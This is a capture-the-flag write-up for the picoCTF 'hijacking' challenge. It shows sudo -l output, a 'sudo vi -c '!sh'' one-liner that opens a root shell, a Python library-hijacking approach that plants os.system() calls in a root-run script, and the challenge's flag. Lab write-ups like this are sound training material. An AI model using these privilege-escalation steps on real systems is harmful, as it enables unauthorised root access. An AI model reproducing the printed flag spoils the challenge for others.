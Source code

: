 ## Challenge: hijacking

## Category: Binary Exploitation

### Description: Getting root access can allow you to read the flag. Luckily there is a python file that you might like to play with.

### Hints:

#### 1. Check for Hidden files

#### 2. No place like Home:)

Logging into the server, I first ran ls -la and saw a hidden file labeled .server.py, suggesting it is a Python script. Here are its contents:

```python
import base64
import os
import socket
ip = 'picoctf.org'
response = os.system("ping -c 1 " + ip)
#saving ping details to a variable
host_info = socket.gethostbyaddr(ip)
#getting IP from a domaine
host_info_to_str = str(host_info[2])
host_info = base64.b64encode(host_info_to_str.encode('ascii'))
print("Hello, this is a part of information gathering",'Host: ', host_info)
```

In short, it just collects the IP address of the picoCTF website...not much. After much hammering the server with different ideas and failing, I idscovered a vulnerability on the server. I typed in sudo -l, which shows what operations I can perform with sudo privileges. Here is what the command output:

> Matching Defaults entries for picoctf on challenge:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
>
> User picoctf may run the following commands on challenge:
    (ALL) /usr/bin/vi
    (root) NOPASSWD: /usr/bin/python3 /home/picoctf/.server.py

So, I have permission to run sudo on vi, a text editor, and I can run .server.py with python3 as root with sudo. I then found a small command that I could use to pop a root shell:

```bash sudo vi -c '!sh'```

To break the command down, vi has a -c argument in which u can supply a command, which in this case is popping a root shell with !sh. Thus, I found the flag file in /root/.flag.txt and got the flag.

Now, when I got the flag, it seemed that I might have used an inintented solution, as it suggests Python library hijacking, which is editing a Python library file or script in order to execute malicious code. The contents of sudo -l suggest I have to power to execute the .server.py script under root conditions, so the intended way seems to be to insert some code in any Python library or script to spit out the flag. I thus implemented some os.system() commands into .server.py, and boom, there's the flag.

#### References: [1](https://medium.com/analytics-vidhya/python-library-hijacking-on-linux-with-examples-a31e6a9860c8)

### Flag: picoCTF{pYth0nn_libraryH!j@CK!n9_4c188d27}

Solved by giggsterpuku
